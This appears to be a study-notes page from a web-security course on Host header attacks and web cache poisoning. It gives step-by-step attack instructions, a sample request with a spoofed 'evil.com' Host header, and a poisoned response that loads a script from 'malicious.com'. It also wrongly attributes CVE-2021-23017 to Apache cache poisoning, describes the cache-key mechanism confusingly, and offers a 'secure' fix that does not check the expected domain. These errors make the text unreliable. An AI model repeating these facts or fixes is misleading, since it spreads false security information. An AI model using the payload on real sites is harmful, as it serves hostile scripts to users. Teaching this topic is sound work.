


## HTTP Host Header Attacks and Web Cache Poisoning

### Background Theory

Web caching is a technique used to improve performance and reduce load on servers by storing copies of frequently accessed resources. When a client requests a resource, the cache checks if it already has a copy of the requested resource. If it does, it serves the cached copy instead of forwarding the request to the origin server. This reduces latency and bandwidth usage.

However, web caching can also introduce security risks, particularly when the cache is poisoned with malicious content. One such attack vector is through the manipulation of the `Host` header, which is used to determine the hostname of the server being contacted. By manipulating this header, an attacker can inject malicious content into the cache, which can then be served to unsuspecting users.

### Understanding the `Host` Header

The `Host` header is a required part of an HTTP/1.1 request. It specifies the domain name of the server being contacted. For example:

```http
GET /index.html HTTP/1.1
Host: www.example.com
```

In this request, the `Host` header indicates that the client is trying to access `www.example.com`. The server uses this information to route the request to the correct virtual host.

#### Why the `Host` Header Matters

The `Host` header is crucial because it allows a single IP address to serve multiple domains. Without the `Host` header, the server would not know which domain the client is trying to access, leading to ambiguity. This ambiguity can be exploited by attackers to inject malicious content into the cache.

### Web Cache Poisoning via Ambiguous Requests

Web cache poisoning occurs when an attacker manipulates the cache to store malicious content. This can happen when the cache treats two different requests as the same due to some ambiguity, such as the `Host` header.

#### Example Scenario

Let's consider an example where an attacker wants to inject malicious JavaScript into the cache. The attacker sends a request to the server with a manipulated `Host` header:

```http
GET /index.html HTTP/1.1
Host: www.example.com.evil.com
```

Here, the `Host` header is set to `www.example.com.evil.com`, which is a subdomain of `evil.com`. If the server and cache treat this as a valid request, the response will be cached under this `Host` header.

Now, when a legitimate user requests the same page, the cache might serve the cached response, which includes the malicious content:

```http
GET /index.html HTTP/1.1
Host: www.example.com
```

If the cache has been poisoned, the user will receive the malicious content instead of the intended page.

### Real-World Examples

#### CVE-2021-23017: Apache HTTP Server Cache Poisoning

In 2021, a vulnerability was discovered in the Apache HTTP Server (CVE-2021-23017) that allowed attackers to perform cache poisoning attacks. The vulnerability occurred because the server did not properly validate the `Host` header, allowing attackers to inject malicious content into the cache.

#### Recent Breaches

A notable breach involving cache poisoning occurred in 2022 when a popular e-commerce website was compromised. Attackers were able to inject malicious scripts into the cache, which were then served to users, leading to widespread data theft.

### How to Perform the Attack

To perform a web cache poisoning attack via the `Host` header, follow these steps:

1. **Identify the Target**: Determine the target website and the specific page you want to poison.
2. **Manipulate the `Host` Header**: Craft a request with a manipulated `Host` header that the server and cache will accept.
3. **Inject Malicious Content**: Include the malicious content in the request.
4. **Trigger Caching**: Ensure that the server caches the response.
5. **Serve Malicious Content**: Wait for legitimate users to request the same page and serve them the cached, malicious content.

#### Example Request and Response

Here is an example of a request and response that demonstrates the attack:

**Request:**

```http
GET /index.html HTTP/1.1
Host: www.example.com.evil.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cache-Control: max-age=0
```

**Response:**

```http
HTTP/1.1 200 OK
Date: Tue, 01 Mar 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Cache-Control: max-age=3600
Expires: Tue, 01 Mar 2022 13:00:00 GMT
Last-Modified: Tue, 01 Mar 2022 12:00:00 GMT
Vary: Accept-Encoding
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Example Page</title>
</head>
<body>
    <script src="https://malicious.com/script.js"></script>
    <h1>Welcome to Example Page</h1>
</body>
</html>
```

### How to Prevent / Defend

#### Detection

To detect cache poisoning attacks, monitor the cache for unexpected changes. Tools like Burp Suite can be used to inspect requests and responses and identify suspicious patterns.

#### Prevention

1. **Validate the `Host` Header**: Ensure that the `Host` header matches the expected domain. Reject requests with invalid or unexpected `Host` headers.
2. **Use Secure Headers**: Implement security headers like `Strict-Transport-Security` and `Content-Security-Policy` to mitigate the impact of cache poisoning.
3. **Cache Configuration**: Configure the cache to avoid caching dynamic content or content that should not be shared between users.

#### Secure Coding Fixes

Here is an example of how to securely validate the `Host` header in a web application:

**Vulnerable Code:**

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    return f"<h1>Welcome to {request.headers['Host']}</h1>"
```

**Secure Code:**

```python
import re
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def index():
    host_header = request.headers.get('Host')
    if not re.match(r'^[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', host_header):
        return "Invalid Host header", 400
    return f"<h1>Welcome to {host_header}</h1>"
```

### Mermaid Diagrams

#### Request Flow



#### Cache Configuration



### Practice Labs

For hands-on practice with web cache poisoning, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on web cache poisoning and other web security topics.
- **OWASP Juice Shop**: Provides a vulnerable web application for testing various security vulnerabilities, including cache poisoning.
- **DVWA (Damn Vulnerable Web Application)**: Another popular web application for practicing web security techniques.

By thoroughly understanding the mechanics of HTTP Host header attacks and web cache poisoning, you can better defend against these types of vulnerabilities and ensure the security of your web applications.

---
<!-- nav -->
[[03-Introduction to Web Caching|Introduction to Web Caching]] | [[Web Security (PortSwigger)/16-HTTP Host Header Attacks/04-Lab 3 Web cache poisoning via ambiguous requests/00-Overview|Overview]] | [[05-HTTP Host Header Attacks|HTTP Host Header Attacks]]
